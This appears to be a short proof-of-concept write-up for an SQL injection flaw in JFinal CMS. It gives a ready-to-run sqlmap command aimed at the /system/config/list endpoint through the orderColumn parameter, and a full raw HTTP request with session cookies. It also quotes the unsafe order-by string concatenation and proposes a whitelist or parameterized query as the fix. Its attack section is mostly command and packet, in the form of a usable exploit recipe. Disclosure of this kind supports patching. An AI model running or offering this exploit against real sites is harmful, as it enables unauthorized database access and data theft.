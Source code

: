 # POC

First of all  you should install sqlmap

you need set 

- target domain or IP
- your cookie

the run the shell

```
sqlmap -u http://targetDomainOrIP/jfinal_cms/system/config/list  --thread 8 --batch --smart  --random-agent --data "oper_type=1&form.orderColumn=*&form.orderAsc=asc&attr.name=&attr.key=&attr.type=-1&totalRecords=16&pageNo=1&pageSize=20&length=10"  --cookie "  your cookie  " --current-db
```

![image-20220730061231131](image-20220730061231131.png)

Sometimes  you should know that  the /jfinal_cms/    is not necessary ,you need juede the route

# principle

you can see the code of interface   /system/menu/list

```
sql.append(" order by ").append(orderBy);
```

There is a sql statement directly spliced

what is more 

There is no measure to prevent sql injection because sql injection is required here

# solution

By analyzing this function point, I found that the injection of orderby is fixed, such as id, name, menu key, so you can try to use parameterized query or make a whitelist



# PACKET

```
POST /jfinal_cms/system/config/list HTTP/1.1
Host: 172.30.48.1
Content-Length: 131
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.30.48.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.30.48.1/jfinal_cms/system/config/list
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=BF13B42EDFC3DEC180959D6DF143BD18; session_user="wgPmpe3hEuJWIL+I+kHtxqag1wutWsMhm6eaAgoJH0c="; Hm_lvt_1040d081eea13b44d84a4af639640d51=1659122360,1659131581; Hm_lpvt_1040d081eea13b44d84a4af639640d51=1659131581
Connection: close

oper_type=1&form.orderColumn=*&form.orderAsc=asc&attr.name=&attr.key=&attr.type=-1&totalRecords=16&pageNo=1&pageSize=20&length=10
```

